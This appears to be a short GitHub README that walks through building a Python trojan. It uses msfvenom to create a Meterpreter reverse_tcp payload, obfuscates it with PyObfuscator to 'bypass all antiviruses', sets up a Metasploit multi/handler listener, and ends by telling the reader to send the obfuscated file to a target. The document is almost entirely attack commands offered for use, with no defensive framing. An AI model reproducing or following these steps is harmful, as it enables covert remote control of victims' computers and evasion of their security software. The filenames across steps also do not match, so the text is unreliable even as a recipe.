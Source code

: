 # Create python trojan with Metasploit and bypass all antiviruses

1 : install python and metasploit or using kali linux

2 : Next install requreiments

3 : create payload and obfuscation it 

4 : build up listener with metasploit and send payload obfuscation to target 

# Requreiments 

pip install PyObfuscator

Optional : if you want you can change it to exe file after obfuscation it for doing this read it (https://github.com/CharonDefalt/Bad-usb)

# Create payload

msfvenom -p python/meterpreter/reverse_tcp LHOST=YOURIP LPORT=YOURPORT -o payload.py

After that lets obfuscation it with below command :

PyObfuscator payload_5050.py

# Build listener

use multi/handler
set PAYLOAD python/meterpreter/reverse_tcp
set LHOST YOURIP
set lport YOURPORT
run

# Final Part
now send this file ( payload_obfu.py ) to target


